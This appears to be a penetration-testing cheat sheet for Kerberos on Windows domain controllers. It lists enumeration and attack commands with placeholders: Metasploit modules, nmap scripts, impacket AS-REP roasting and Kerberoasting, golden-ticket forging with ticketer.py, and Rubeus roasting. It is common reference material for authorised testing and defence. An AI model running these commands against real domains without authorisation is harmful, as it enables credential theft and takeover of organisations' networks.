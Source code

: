 # Kerberos
- Probably a Windows Domain Controller

## Enumeration

### Metasploit

##### kerberos_enumusers
```bash
use auxiliary/gather/kerberos_enumusers
set RHOSTS [IP]
set REALM [REALM]
set USER_FILE [file_with_usernames.txt]
run
```

##### kerberos_checksum
```bash
use auxiliary/admin/kerberos/kerberos_checksum
set RHOSTS [IP]
set REALM [REALM]
run
```

##### krb5_asrep
```bash
use auxiliary/scanner/kerberos/kerberos_asrep
set RHOSTS [IP]
set USER_FILE [file_with_usernames.txt]
set REALM [REALM]
run
```

##### krb5_tgs
```bash
use auxiliary/scanner/kerberos/kerberos_tgs
set RHOSTS [IP]
set REALM [REALM]
set USERNAME [valid_user]
run
```

### Nmap

##### Kerberos scripts
```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='[REALM]' [IP]
```

##### Service detection
```bash
nmap -sV -p 88 [IP]
```

## Exploitation

### Metasploit

##### kerberos_analyze_encrypted_timestamp
```bash
use auxiliary/analyze/kerberos/kerberos_analyze_encrypted_timestamp
set RHOST [IP]
set PCAPFILE [kerberos_traffic.pcap]
run
```

##### kerberos_ticket_clone
```bash
use auxiliary/admin/kerberos/kerberos_ticket_clone
set RHOST [IP]
set REALM [REALM]
set TGTFILE [ticket_file.kirbi]
run
```

### impacket

##### GetNPUsers.py (AS-REP Roasting)
```bash
GetNPUsers.py [REALM]/ -no-pass -usersfile [userlist.txt] -dc-ip [IP]
```

##### GetUserSPNs.py (Kerberoasting)
```bash
GetUserSPNs.py [REALM]/[user]:[password] -dc-ip [IP] -request
```

##### TGT Dump (Golden Ticket prep)
```bash
ticketer.py -nthash [NTLM_hash] -domain-sid [SID] -domain [REALM] -user-id [500] [username]
```

### Rubeus (Windows)

##### Kerberoasting with Rubeus
```powershell
Rubeus.exe kerberoast
```

##### AS-REP Roasting with Rubeus
```powershell
Rubeus.exe asreproast
```
